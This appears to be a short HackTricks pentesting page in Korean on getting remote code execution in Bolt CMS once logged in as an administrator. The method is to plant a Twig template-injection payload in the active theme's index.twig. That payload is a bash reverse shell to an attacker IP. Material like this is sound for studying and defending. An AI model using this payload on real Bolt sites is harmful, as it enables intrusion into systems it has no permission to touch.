 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

관리자로 로그인한 후 (/bot로 이동하여 로그인 프롬프트에 접근), Bolt CMS에서 RCE를 얻을 수 있습니다:

- `Configuration` -> `View Configuration` -> `Main Configuration`을 선택하거나 URL 경로 `/bolt/file-edit/config?file=/bolt/config.yaml`로 이동합니다.
- 테마의 값을 확인합니다.

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates`를 선택합니다.
- 이전 단계에서 찾은 테마 기본값(`base-2021`인 경우)을 선택하고 `index.twig`를 선택합니다.
- 제 경우에는 URL 경로 /bolt/file-edit/themes?file=/base-2021/index.twig에 있습니다.
- [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php)를 통해 이 파일에 페이로드를 설정합니다, 예: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 변경 사항을 저장합니다.

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache`에서 캐시를 지웁니다.
- 일반 사용자로 다시 페이지에 접근하면 페이로드가 실행되어야 합니다.

{{#include ../../banners/hacktricks-training.md}}
